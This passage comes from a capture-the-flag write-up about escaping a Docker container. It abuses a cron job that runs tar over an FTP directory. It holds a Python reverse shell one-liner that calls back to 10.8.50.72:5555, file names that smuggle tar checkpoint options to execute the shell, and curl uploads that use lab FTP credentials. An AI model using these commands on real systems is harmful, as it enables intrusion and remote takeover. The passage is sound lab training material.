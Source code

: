 ~~~
* Connect data stream actively
> TYPE A
< 200 Switching to ASCII mode.
> LIST
< 150 Here comes the directory listing.
* Maxdownload = -1
* Preparing for accepting server on data port
* Checking for server connect
* Ready to accept data connection from server
* Connection accepted from server
{ [0 bytes data]
* Remembering we are in dir "files/"
< 226 Directory send OK.
* Connection #0 to host 172.20.0.1 left intact
~~~

## Crontab?

This is where I was left without ideas, and after a while, I decided to have a quick look at the writeups to see how I could move forward. I could read that "a crontab is running outside the container! The user `backupmgr` is running `tar` every minute and uses a wildcard `*` to include everything in the `ftp://files` directory".

Honestly, without any hint (did I miss any?), I don't know how one could do this kind of assumption, but let's take it for granted... I stopped reading the write-up and decided to continue exploring myself, with this new "hint".

## Reverse shell (escape the docker container)

Long story short, what we need to do is to push 3 files on the ftp server, under the `/files` directory in order to inject parameters to the `tar` command, as described on [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#shell):

* `shell`: a new reverse shell (we will do it in python)
* `--checkpoint=1`
* `--checkpoint-action=exec=sh shell`: to run our shell

Let's create the files:

~~~
$ echo "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.8.50.72\",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'" > shell.sh
$ echo "" > "/var/www/html/--checkpoint=1"
$ echo "" > "/var/www/html/--checkpoint-action=exec=sh shell.sh"
~~~

And now, let's upload them to the remote location:

~~~
$ curl -v -P - -T "/var/www/html/shell.sh" 'ftp://backupmgr:SuperS1ckP4ssw0rd123!@172.20.0.1/files/'
$ curl -v -P - -T "/var/www/html/--checkpoint=1" 'ftp://backupmgr:SuperS1ckP4ssw0rd123!@172.20.0.1/files/'
$ curl -v -P - -T "/var/www/html/--checkpoint-action=exec=sh shell.sh" 'ftp://backupmgr:SuperS1ckP4ssw0rd123!@172.20.0.1/files/'
~~~
